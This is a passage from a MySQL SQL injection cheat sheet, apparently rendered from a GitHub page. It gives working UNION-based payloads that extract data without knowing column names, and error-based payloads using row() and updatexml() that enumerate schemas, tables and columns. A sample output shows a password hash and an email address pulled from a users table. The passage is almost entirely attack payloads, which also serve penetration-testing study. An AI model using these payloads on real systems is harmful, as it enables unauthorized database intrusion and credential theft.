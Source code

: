 ```sql
-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b)a
--#1060 - Duplicate column name 'id'

-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id))a
-- #1060 - Duplicate column name 'name'

-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id,name))a
...
```

### Extract data without columns name 

Extracting data from the 4th column without knowing its name.

```sql
select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
```

Injection example inside the query `select author_id,title from posts where author_id=[INJECT_HERE]`

```sql
MariaDB [dummydb]> select author_id,title from posts where author_id=-1 union select 1,(select concat(`3`,0x3a,`4`) from (select 1,2,3,4,5,6 union select * from users)a limit 1,1);
+-----------+-----------------------------------------------------------------+
| author_id | title                                                           |
+-----------+-----------------------------------------------------------------+
|         1 | a45d4e080fc185dfa223aea3d0c371b6cc180a37:veronica80@example.org |
+-----------+-----------------------------------------------------------------+
```


## MYSQL Error Based

### MYSQL Error Based - Basic

Works with `MySQL >= 4.1`

```sql
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+'
```


### MYSQL Error Based - UpdateXML function

```sql
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```
